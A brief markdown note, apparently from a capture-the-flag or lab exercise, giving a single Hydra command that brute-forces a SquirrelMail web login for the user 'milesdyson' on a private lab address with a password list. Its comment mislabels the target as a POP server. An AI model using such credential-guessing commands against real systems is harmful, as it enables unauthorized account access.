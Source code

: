 # Commands for Hydra

#Command used to login to a pop server
```
hydra -l milesdyson -P log1.txt 10.10.229.129 -V http-form-post '/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown User or password incorrect.'
```
